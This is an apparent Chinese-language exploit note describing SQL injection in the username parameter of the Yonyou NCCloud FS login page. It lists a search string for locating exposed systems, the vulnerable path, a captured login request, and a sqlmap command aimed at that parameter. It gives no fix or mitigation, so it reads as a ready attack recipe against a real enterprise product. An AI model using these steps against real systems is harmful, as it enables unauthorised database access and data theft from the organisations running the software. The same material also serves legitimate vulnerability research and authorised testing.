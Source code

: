 # 用友 NCCloud FS文件管理SQL注入

## 漏洞描述

用友 NCCloud FS文件管理登录页面对用户名参数没有过滤，存在SQL注入

## 漏洞影响

<a-checkbox checked>用友 NCCloud</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"NCCloud"</a-checkbox></br>

## 漏洞描述

登录页面如下



![img](../../../.vuepress/public/img/yongyou-13.png)

在应用中存在文件服务器管理登录页面

```plain
http://xxx.xxx.xxx.xxx/fs/
```



![img](../../../.vuepress/public/img/yongyou-14.png)



登录请求包如下



```plain
GET /fs/console?username=123&password=%2F7Go4Iv2Xqlml0WjkQvrvzX%2FgBopF8XnfWPUk69fZs0%3D HTTP/1.1
Host: xxx.xxx.xxx.xxx
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.85 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: JSESSIONID=2CF7A25EE7F77A064A9DA55456B6994D.server; JSESSIONID=0F83D6A0F3D65B8CD4C26DFEE4FCBC3C.server
Connection: close
```

使用Sqlmap对**username参数** 进行SQL注入

```plain
sqlmap -r sql.txt -p username
```

![img](../../../.vuepress/public/img/yongyou-15.png)